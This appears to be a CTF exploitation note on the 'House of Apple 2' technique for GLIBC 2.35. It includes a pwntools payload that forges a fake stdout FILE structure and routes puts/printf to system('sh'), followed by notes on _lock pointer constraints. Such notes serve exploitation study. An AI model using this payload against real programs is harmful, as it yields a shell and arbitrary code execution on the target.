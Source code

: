 #### GG | system

**Analysis**: [link](https://c-lby.top/2024/08/05/house-of-apple2/#) by author *C_LBY*.

**Version**: GLIBC 2.35

When there's no sandbox to restrict functions like `execve`, we can manage to get shell by hijacking `_IO_2_1_stdout_` which will be applied in `puts/printf` function:

> Only hijacking `_IO_2_1_stdout_` works, while `puts` is not taking `stdout` as the parameter.

```py
# Gadgets
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
_IO_2_1_stdout_ = libc_base + libc.sym['_IO_2_1_stdout_']
stdout		    = libc_base + libc.sym['stdout']
system	        = libc_base + libc.sym['system']
environ			= libc_base + libc.sym['_environ']
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_wfile_jumps)
pa(stdout)
pa(system)
pa(environ)

fakeIO_addr = stdout
pa(fakeIO_addr)

pl = flat({ 
    0x0:  b'  sh;',			# _flag
    0x10: system,			# _wide_data->_wide_vtable->_IO_wfile_overflow
    0x20: _IO_2_1_stdout_,	# _wide_data->_IO_write_ptr
    0x88: environ-0x10, 	# _lock
    0xa0: _IO_2_1_stdout_,		# _wide_data 
    0xd8: _IO_wfile_jumps+0x10, # vtable
    0xe0: _IO_2_1_stdout_-0x8,	# _wide_data->_wide_vtable
}, filler='\0')
```

- `_flag` with 2 space at the beginning.

- Overwriting `_lock` pointer is not necessary if we don't attack the `stdout` FILE struct.
- If we aim to hijack `stdout`, the pointer `_lock` should be considered:
  - `[_lock]` readable;
  - `[_lock+8]` readable;
  - `[[_lock]]` writable.
- Or we can write an address near `_IO_stdfile_1_lock`.
- If the program is using `read` function, we can put a heap address into `_lock`.
- GDB Breakpoints: `_IO_file_xsputn`, `_IO_file_seekoff`.

